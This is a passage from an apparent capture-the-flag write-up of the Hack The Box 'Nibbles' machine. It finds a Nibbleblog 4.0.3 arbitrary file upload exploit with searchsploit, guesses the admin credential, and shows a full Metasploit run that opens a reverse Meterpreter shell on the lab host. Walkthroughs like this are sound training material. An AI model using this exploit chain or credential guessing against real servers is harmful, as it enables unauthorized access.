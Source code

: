 {% endhighlight %}

Since we had juicy information "Nibbleblog v4.0.3", try to look for well-known exploit.<br>
{% highlight shell %}
root@kali:~# searchsploit nibble
------------------------------------------------------- ----------------------------------------
 Exploit Title                                         |  Path
                                                       | (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
Nibbleblog 3 - Multiple SQL Injections                 | exploits/php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)  | exploits/php/remote/38489.rb
------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

Sounds there is a RCE with metasploit.<br>
However, we need a guessing to figure out what is the credential.<br>
This time, the username is same as default and password is the server name.
{% highlight shell %}
admin:nibbles
{% endhighlight %}

Then, try to execute RCE with following procedure.
{% highlight shell %}
msf5 > search nibble

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


msf5 > use exploit/multi/http/nibbleblog_file_upload

msf5 exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
rhost => 10.10.10.75

msf5 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin

msf5 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles

msf5 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog

msf5 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.30:4444
[*] Sending stage (38247 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.30:4444 -> 10.10.10.75:37036) at 2019-09-29 11:25:40 +0300
[+] Deleted image.php

meterpreter > getuid
Server username: nibbler (1001)
{% endhighlight %}

